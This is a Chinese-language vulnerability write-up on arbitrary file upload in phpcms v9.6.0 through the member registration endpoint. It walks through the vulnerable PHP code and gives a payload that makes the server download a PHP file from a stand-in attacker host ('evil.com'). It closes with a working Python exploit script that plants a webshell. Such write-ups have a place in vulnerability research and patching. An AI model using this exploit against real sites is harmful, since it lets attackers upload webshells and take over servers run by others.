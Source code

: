 # phpcmsv9.6.0任意文件上传



## 利用条件

phpcms v9.6.0

开启用户注册功能

## 漏洞复现

根据网络上提供的poc进行漏洞复现:

```python
import re
import requests


def poc(url):
    u = '{}/index.php?m=member&c=index&a=register&siteid=1'.format(url)
    data = {
        'siteid': '1',
        'modelid': '1',
        'username': 'test',
        'password': 'testxx',
        'email': 'test@test.com',
        'info[content]': '<img src=http://url/shell.txt?.php#.jpg>',
        'dosubmit': '1',
    }
    rep = requests.post(u, data=data)

    shell = ''
    re_result = re.findall(r'&lt;img src=(.*)&gt', rep.content)
    if len(re_result):
        shell = re_result[0]
        print shell

```

漏洞的关键位置

` phpcms/modules/member/index.php `:135

```php
if($member_setting['choosemodel']) {
    require_once CACHE_MODEL_PATH.'member_input.class.php';
    require_once CACHE_MODEL_PATH.'member_update.class.php';
    $member_input = new member_input($userinfo['modelid']);		
    $_POST['info'] = array_map('new_html_special_chars',$_POST['info']);
    $user_model_info = $member_input->get($_POST['info']);				        				
}
```

`$_POST['info']`被`new_html_special_chars`处理后,直接作为参数传入`$member_input->get`

跟进去发现

```php
if(is_array($data)) {
			foreach($data as $field=>$value) {
				...
				$field = safe_replace($field);
				...
				$func = $this->fields[$field]['formtype'];
				if(method_exists($this, $func)) $value = $this->$func($field, $value);
	
				$info[$field] = $value;
			}
		}
```

`$this->$func($field, $value);`令人浮想联翩的命令,而`$func = $this->fields[$field]['formtype'];`,其中`$field`是我们可控的输入`new_html_special_chars($_POST['info']) as $field=>$value`

而`$this->fields[$field]['formtype'];`有以下取值,我们可以控制其执行某一函数

```php
$this->fields['catid']['formtype']="catid"
$this->fields['typeid']['formtype']="typeid"
$this->fields['title']['formtype']="title"
$this->fields['keywords']['formtype']="keyword"
$this->fields['copyfrom']['formtype']="copyfrom"
$this->fields['description']['formtype']="textarea"
$this->fields['updatetime']['formtype']="datetime"
$this->fields['content']['formtype']="editor"
$this->fields['thumb']['formtype']="image"
$this->fields['relation']['formtype']="omnipotent"
$this->fields['pages']['formtype']="pages"
$this->fields['inputtime']['formtype']="datetime"
$this->fields['posids']['formtype']="posid"
$this->fields['groupids_view']['formtype']="groupid"
$this->fields['voteid']['formtype']="omnipotent"
$this->fields['islink']['formtype']="islink"
$this->fields['url']['formtype']="text"
$this->fields['listorder']['formtype']="number"
$this->fields['template']['formtype']="template"
$this->fields['allow_comment']['formtype']="box"
$this->fields['status']['formtype']="box"
$this->fields['readpoint']['formtype']="readpoint"
$this->fields['username']['formtype']="text"
```

一个一个查看最后发现:

```php
	function editor($field, $value) {
		$setting = string2array($this->fields[$field]['setting']);
		$enablesaveimage = $setting['enablesaveimage'];
		$site_setting = string2array($this->site_config['setting']);
		$watermark_enable = intval($site_setting['watermark_enable']);
		$value = $this->attachment->download('content', $value,$watermark_enable);
		return $value;
	}
```

`editor`会调用download方法,其中`$field`和`$value`都是可控的

跟进`download`:

```php
function download($field, $value,$watermark = '0',$ext = 'gif|jpg|jpeg|bmp|png', $absurl = '', $basehref = '')
	{
		global $image_d;
		$this->att_db = pc_base::load_model('attachment_model');
		$upload_url = pc_base::load_config('system','upload_url');
		$this->field = $field;
		$dir = date('Y/md/');
		$uploadpath = $upload_url.$dir;
		$uploaddir = $this->upload_root.$dir;
		$string = new_stripslashes($value);
		if(!preg_match_all("/(href|src)=([\"|']?)([^ \"'>]+\.($ext))\\2/i", $string, $matches)) return $value;
		$remotefileurls = array();
		foreach($matches[3] as $matche)
		{
			if(strpos($matche, '://') === false) continue;
			dir_create($uploaddir);
			$remotefileurls[$matche] = $this->fillurl($matche, $absurl, $basehref);
		}
		unset($matches, $string);
		$remotefileurls = array_unique($remotefileurls);
		$oldpath = $newpath = array();
		foreach($remotefileurls as $k=>$file) {
			if(strpos($file, '://') === false || strpos($file, $upload_url) !== false) continue;
			$filename = fileext($file);
			$file_name = basename($file);
			$filename = $this->getname($filename);

			$newfile = $uploaddir.$filename;
			$upload_func = $this->upload_func;
			if($upload_func($file, $newfile)) {
				$oldpath[] = $k;
				$GLOBALS['downloadfiles'][] = $newpath[] = $uploadpath.$filename;
				@chmod($newfile, 0777);
				$fileext = fileext($filename);
				if($watermark){
					watermark($newfile, $newfile,$this->siteid);
				}
				$filepath = $dir.$filename;
				$downloadedfile = array('filename'=>$filename, 'filepath'=>$filepath, 'filesize'=>filesize($newfile), 'fileext'=>$fileext);
				$aid = $this->add($downloadedfile);
				$this->downloadedfiles[$aid] = $filepath;
			}
		}
		return str_replace($oldpath, $newpath, $value);
	}	
```

`download`用`$upload_func($file, $newfile)`来下载文件到服务器,而`$upload_func="copy"`

我们分析一下`download`函数,`$file`和`$newfile`经过的处理

`$file`是`$remotefileurls`中的值

```php
		$string = new_stripslashes($value);//反转义
		if(!preg_match_all("/(href|src)=([\"|']?)([^ \"'>]+\.($ext))\\2/i", $string, $matches)) return $value;
		$remotefileurls = array();
		foreach($matches[3] as $matche)
		{
			if(strpos($matche, '://') === false) continue;
			dir_create($uploaddir);
			$remotefileurls[$matche] = $this->fillurl($matche, '', '');
		}
```

跟进`$this->fillurl`,大概功能是,去掉url`#`后面的东西

```php
function fillurl($surl, $absurl, $basehref = '') {
		...
		$pos = strpos($surl,'#');
		if($pos>0) $surl = substr($surl,0,$pos);
		...
	}
```



构造`$value='src=http://evil.com/evil.php#.jpg'`



我们再看下`$newfile`

```php
$dir = date('Y/md/');
$uploaddir = $this->upload_root.$dir;
$filename = fileext($file);
$filename = $this->getname($filename);
$newfile = $uploaddir.$filename;
```

`$this->getname`:

```php
function getname($fileext){
		return date('Ymdhis').rand(100, 999).'.'.$fileext;
	}
```



webshell的地址为:` http://website/uploadfile/date('Y/md/')/date('Ymdhis').rand(100, 999).php`

最后payload为:

```
/index.php?m=member&c=index&a=register&siteid=1
post:
info[content]=<img src="http://evil.com/evil.php">
```



## 利用脚本



```python
import re
import requests
import random

def exp(url,evilurl="http://xxxxxxx/evil.php"):
    u = '{}/index.php?m=member&c=index&a=register&siteid=1'.format(url)
    data = {
        'siteid': '1',
        'modelid': '1',
        'username': 'test%d'%random.randint(1,999999),
        'password': 'testxx',
        'email': 'test%d@test.com'%random.randint(1,999999),
        'info[content]': 'src=%s#.jpg'%evilurl,
        'dosubmit': '1',
    }
    rep = requests.post(u, data=data)
    result=re.search(r"VALUES \('src=(.*)','\d*'\)",rep.text).groups()
    print(rep.text)
    print(result)


exp("http://127.0.0.1/cms/phpcms/9.6.0")
```

